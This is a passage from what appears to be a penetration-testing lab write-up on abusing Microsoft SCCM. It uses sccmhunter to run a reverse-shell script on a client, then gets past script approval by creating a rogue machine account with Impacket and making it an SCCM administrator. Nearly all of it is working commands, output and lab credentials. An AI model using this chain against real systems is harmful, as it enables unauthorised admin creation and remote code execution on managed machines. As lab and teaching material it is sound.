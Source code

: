 ```bash
python3 sccmhunter.py admin -u carol@sccm.lab -p 'SCCMftw' -ip 192.168.33.11
() (C:\) >> get_device CLIENT
() (C:\) >> interact 16777221
(16777221) (C:\) >> script /workspace/revshell.ps1
```
![need_approval.png](/assets/blog/SCCM/need_approval.png)


- Ok the configuration is by default and it need approval, let's create an approval account

```bash
# create a computer account
addcomputer.py -computer-name 'approval$' -computer-pass 'approvalaccount' 'sccm.lab/carol:SCCMftw' -dc-ip 192.168.33.10

Impacket v0.11.0 - Copyright 2023 Fortra 
[*] Successfully added machine account approval$ with password approvalaccount.  

# search the computer SID
ldeep ldap -u carol -p SCCMftw -d SCCM.lab -s ldap://192.168.33.10 search '(name=*approval*)' 'objectSid'
[{                                                                  
  "dn": "CN=approval,CN=Computers,DC=sccm,DC=lab",                  
  "objectSid": "S-1-5-21-3544182104-1320166847-3102157022-1122"     
}] 

# add the account as admin with sccmhunter
python3 sccmhunter.py admin -u carol@sccm.lab -p 'SCCMftw' -ip 192.168.33.11 -debug
SCCMHunter v1.0.1 by @garrfoster
[18:55:40] DEBUG    [*] Database built.                             
[18:55:40] INFO     [!] Enter help for extra shell commands         
() C:\ >> add_admin approval$ S-1-5-21-3544182104-1320166847-3102157022-1122
[18:55:56] INFO     Tasked SCCM to add approval$ as an administrative user.                                                             
[18:55:57] INFO     [+] Successfully added approval$ as an admin.   
```

- Run the revshell with `approval$` account

```bash
python3 sccmhunter.py admin -u carol@sccm.lab -p 'SCCMftw' -ip 192.168.33.11 -au 'approval$' -ap 'approvalaccount' -debug
() (C:\) >> get_device CLIENT
() (C:\) >> interact 16777221
(16777221) (C:\) >> script /workspace/revshell.ps1
```
